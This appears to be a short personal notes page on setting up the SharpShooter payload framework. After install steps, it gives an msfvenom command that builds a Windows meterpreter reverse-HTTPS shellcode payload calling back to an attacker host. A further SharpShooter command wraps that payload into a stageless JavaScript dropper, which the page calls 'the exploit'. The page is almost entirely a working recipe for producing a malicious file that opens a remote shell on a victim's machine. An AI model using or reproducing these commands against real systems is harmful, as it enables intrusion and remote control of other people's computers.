 ```yaml
---
layout:     post
author:     0x5c4r3
type: docs
permalink: SharpShooter
---
```



<span style="font-size: 35px; color:red"><b>SharpShooter</b></span>
&nbsp;

https://github.com/mdsecactivebreach/SharpShooter.git

In order to make it work:
```shell
apt-get install virtualenv python3-autopep8 python2-setuptools-whl python2-setuptools-whl
cd /opt/; git clone https://github.com/mdsecactivebreach/SharpShooter.git
cd SharpShooter; pip install -r requirements.txt
autopep8 -i /opt/SharpShooter/modules/excel4.py
virtualenv sharpshooter-venv -p $(which python2)
wget https://bootstrap.pypa.io/pip/2.7/get-pip.py
python get-pip.py
pip install -r requirements.txt
```

Create a revshell payload:
```shell
sudo msfvenom -p windows/x64/meterpreter/reverse_https LHOST=<LHOST> LPORT=443 -f raw -o /var/www/html/shell.txt
```

Create the .js file with the following command:
```shell
sudo python SharpShooter.py --payload js --dotnetver 4 --stageless --rawscfile /var/www/html/shell.txt --output test
```

It will create a test.js which is the exploit.
